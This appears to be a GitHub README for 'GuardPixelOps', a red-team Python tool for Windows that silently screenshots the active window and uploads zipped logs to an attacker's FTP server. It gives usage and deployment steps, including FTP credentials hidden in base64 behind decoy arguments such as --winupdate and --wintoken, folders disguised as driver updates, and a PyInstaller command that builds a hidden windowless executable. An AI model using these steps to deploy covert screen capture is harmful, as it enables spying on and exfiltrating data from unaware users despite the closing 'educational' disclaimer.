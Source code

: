 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

### Important Note: Encoding Information in Base64

Before using GuardPixelOps, please ensure that you encode the following information in Base64 format for the respective command-line arguments:

- `--winupdate`: Microsoft Relay Information
- `--wintoken`: Windows Token
- `--winversion`: Windows Version

Here's an example of how to encode information in Base64 using Python:

```bash
echo -n "your_information_here" | base64
```
Here's an example of how to encode information in Base64 using Powershell:

```bash
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("your_information_here"))
```

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

### Compiling to .exe

To enhance portability and simplify distribution, you can compile GuardPixelOps into a standalone executable (.exe) file using [PyInstaller](https://www.pyinstaller.org/).

Ensure you have PyInstaller installed:

```bash
pip install pyinstaller
```

Navigate to the directory containing guardpixelops.py and run the following command in the command prompt:
```bash
pyinstaller --clean -w -F -i NONE "guardpixelops.py" --noconsole
```
Now, you can distribute and run GuardPixelOps as a standalone executable without requiring Python or additional dependencies.

### Folders and Logs
During the execution of GuardPixelOps, the script creates a folder structure within the WindowsFiles directory. Here's an overview:

WindowsFiles:
- `Updates`: Contains temporary files used during the update process.
- `Drivers`: Contains compressed driver backup files.
- `Logs`: The log file (logs-drivers.txt) is created in the same directory as the executable.
Make sure to check the logs for important information and any error messages, LOL.

Note: Adjust the command and paths as needed based on your preferences.




## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾

